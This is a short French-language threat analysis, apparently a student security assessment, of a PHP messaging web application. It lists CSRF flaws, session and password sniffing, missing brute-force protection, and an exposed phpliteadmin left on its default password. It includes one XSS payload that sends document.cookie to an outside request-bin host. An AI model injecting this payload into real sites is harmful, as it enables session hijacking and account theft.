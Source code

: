 # STI — Analyse de menaces

* **Date** : 10.12.2019
* **Auteurs** : Nikolaos Garanis, Nemanja Pantic.

## Introduction

* CSRF sur tous les formulaires ainsi que les liens, on a reussi à
  * supprimer n'importe quel message (via son id)
    * en chargeant l'url /delete.php?delete=<id>
  * executer une requete http pour lire n'importe quel message via son id
    * /read.php?message=131, mais impossible de lire le contenu depuis le navigateur mais si l'attaquant sniff le reseau il pourra voir le contenu du message
  * envoyer un message
    * 
  * changer son mdp
    * 
  * administration
  * réponse aux messages
  * suppression des messages
* Credentials obtenable en faisant de l'écoute sur le réseau
  * Nous pouvons obtenir le cookie de session ainsi que le login et le password
  * N'importe qui peut donc usurper l'identité d'un compte sur le réseau
* XSS dans message avec
    ```html
    <script>fetch('https://enons72ccci9o.x.pipedream.net/c' + document.cookie)</script>
    ```
* pas d'injections SQL car PDO::prepare/execute sont utilisés.
* pas de protection contre le bruteforce de mdp
* mot de passe actuel non demandé lors du changement de mdp (possibilité de changé le mdp lors d'un vol de session)
 
* Fuzzing possible
  * On obtient des informations sur l'architecture du site
  * Surtout, on peut découvrir le dossier /extern qui contient le fichier phpliteadmin.php et ce dernier avait le mot de passe de base, nous avions donc accès à l'intégralité de la DB.
